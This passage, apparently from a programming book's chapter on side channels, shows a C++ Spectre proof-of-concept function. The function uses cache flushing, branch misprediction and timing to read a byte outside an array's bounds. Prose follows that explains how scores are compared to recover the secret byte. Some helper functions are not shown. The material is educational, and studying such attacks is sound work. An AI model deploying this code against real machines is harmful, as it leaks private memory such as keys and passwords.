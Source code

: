 The following function attacks a single byte outside of the data array:

\begin{lstlisting}[style=styleCXX]
// spectre.C
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

For each element of the timing array, we will compute a score, which is the number of times this element was the fastest one to access. We also track the second-fastest element, which should be just one of the regular, slow to access, array elements. We keep doing it for many iterations: ideally, until we get the result, but, in practice, we have to give up at some point.

Once a large enough gap opens between the best score and the second-best score, we know that we have reliably detected the fast element of the timing array, which is the one indexed by the value of the secret byte (if we reach the maximum number of iterations without getting a reliable answer, the attack has failed, although we can try to use the best guess we have so far).

